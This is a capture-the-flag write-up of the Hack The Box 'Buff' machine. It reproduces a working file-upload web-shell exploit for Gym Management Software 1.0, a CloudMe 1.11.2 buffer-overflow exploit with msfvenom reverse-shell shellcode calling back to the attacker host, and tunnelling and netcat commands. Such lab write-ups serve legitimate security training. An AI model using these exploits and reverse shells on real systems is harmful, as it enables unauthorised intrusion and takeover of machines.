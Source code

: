 ```yaml
---
icon: /assets/avatars/buff.png
image: /assets/avatars/buff.png
title: Buff Writeup
author: Valerio Casalino
---
```


# Buff

As always, an `nmap` scan is mandatory:

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.198
...
Nmap scan report for 10.10.10.198
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

Enumerating more ports, we can find:

```bash
sudo nmap -sC -sV -oN nmap/full -p- 10.10.10.198
...
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
```

Going to port 8080, we find a gym website:

![image-20201022200250269](/assets/buff/image-20201022200250269.png)

There is a login form, but before trying anything, we should fuzz around. In `contacts.php`, there is an important information about the framework used: "Gym Management Software 1.0". Looking with `searchsploit` or with a simple Google search, we find a [good unauthenticated](https://www.exploit-db.com/exploits/48506) RCE to use.

So, the point is that this software does not check for an authenticated user session when accessing `/upload.php`, so we can upload a file containing PHP code with a double extension to trick the extension white-list and with a custom Content-type to trick the mime checker. More info in [the exploit-db page](https://www.exploit-db.com/exploits/48506).

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/lolz.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=lolz'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'much-lolz.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Then run it:

```bash
python2 ./48505.py "http://10.10.10.198:8080/"
```

![image-20201022233828363](/assets/buff/image-20201022233828363.png)

If you immediately want the user flag, you should run this command.

```bash
curl -G --data-urlencode "telepathy=type C:\\Users\\shaun\\Desktop\\user.txt" "http://10.10.10.198:8080/upload/lolz.php"
```

So, you can put `nc.exe` in the target machine starting a python server on the attacker, using:

```bash
python3 -m http.server
```

You can find `nc.exe` in the package "windows-binaries" `/usr/share/windows/windows-binaries` (may vary).

Enumerate with [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and look at `shaun`'s download folder, there you can find `CloudMe_1112.exe`, with a `searchsploit` we can find the [great privesc exploit](https://www.exploit-db.com/exploits/48389). We have to edit some infos

```bash
# Put the output in the python file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
```

So in the end the python file should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
payload =  b""
payload += b"\xda\xc0\xba\x4c\x4d\xf4\xbe\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x1a"
payload += b"\x5e\x16\x4b\x5e\x88\x54\xb4\x9e\x49\x39\x3c\x7b"
payload += b"\x78\x79\x5a\x08\x2b\x49\x28\x5c\xc0\x22\x7c\x74"
payload += b"\x53\x46\xa9\x7b\xd4\xed\x8f\xb2\xe5\x5e\xf3\xd5"
payload += b"\x65\x9d\x20\x35\x57\x6e\x35\x34\x90\x93\xb4\x64"
payload += b"\x49\xdf\x6b\x98\xfe\x95\xb7\x13\x4c\x3b\xb0\xc0"
payload += b"\x05\x3a\x91\x57\x1d\x65\x31\x56\xf2\x1d\x78\x40"
payload += b"\x17\x1b\x32\xfb\xe3\xd7\xc5\x2d\x3a\x17\x69\x10"
payload += b"\xf2\xea\x73\x55\x35\x15\x06\xaf\x45\xa8\x11\x74"
payload += b"\x37\x76\x97\x6e\x9f\xfd\x0f\x4a\x21\xd1\xd6\x19"
payload += b"\x2d\x9e\x9d\x45\x32\x21\x71\xfe\x4e\xaa\x74\xd0"
payload += b"\xc6\xe8\x52\xf4\x83\xab\xfb\xad\x69\x1d\x03\xad"
payload += b"\xd1\xc2\xa1\xa6\xfc\x17\xd8\xe5\x68\xdb\xd1\x15"
payload += b"\x69\x73\x61\x66\x5b\xdc\xd9\xe0\xd7\x95\xc7\xf7"
payload += b"\x18\x8c\xb0\x67\xe7\x2f\xc1\xae\x2c\x7b\x91\xd8"
payload += b"\x85\x04\x7a\x18\x29\xd1\x2d\x48\x85\x8a\x8d\x38"
payload += b"\x65\x7b\x66\x52\x6a\xa4\x96\x5d\xa0\xcd\x3d\xa4"
payload += b"\x23\xf8\xcb\xa8\x80\x94\xc9\xb4\xc5\x4d\x47\x52"
payload += b"\x63\x9e\x01\xcd\x1c\x07\x08\x85\xbd\xc8\x86\xe0"
payload += b"\xfe\x43\x25\x15\xb0\xa3\x40\x05\x25\x44\x1f\x77"
payload += b"\xe0\x5b\xb5\x1f\x6e\xc9\x52\xdf\xf9\xf2\xcc\x88"
payload += b"\xae\xc5\x04\x5c\x43\x7f\xbf\x42\x9e\x19\xf8\xc6"
payload += b"\x45\xda\x07\xc7\x08\x66\x2c\xd7\xd4\x67\x68\x83"
payload += b"\x88\x31\x26\x7d\x6f\xe8\x88\xd7\x39\x47\x43\xbf"
payload += b"\xbc\xab\x54\xb9\xc0\xe1\x22\x25\x70\x5c\x73\x5a"
payload += b"\xbd\x08\x73\x23\xa3\xa8\x7c\xfe\x67\xd8\x36\xa2"
payload += b"\xce\x71\x9f\x37\x53\x1c\x20\xe2\x90\x19\xa3\x06"
payload += b"\x69\xde\xbb\x63\x6c\x9a\x7b\x98\x1c\xb3\xe9\x9e"
payload += b"\xb3\xb4\x3b"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We need to run a http reverse tunnel using [chisel](https://github.com/jpillora/chisel/releases):

```bash
# On attacker
./chisel-linux server -p 8080 -reverse
```

![image-20201023002602151](/assets/buff/image-20201023002602151.png)

```powershell
# On victim
.\chisel.exe client 10.10.14.51:8080 R:8888:127.0.0.1:8080
```

![image-20201023002643050](/assets/buff/image-20201023002643050.png)

Now we can run the exploit on attacher machine!

![image-20201023025910927](/assets/buff/image-20201023025910927.png)

Hopping to another shell we have to wait for connections on netcat, then run the exploit above! We'll get a reverse shell as root :) so... profit.
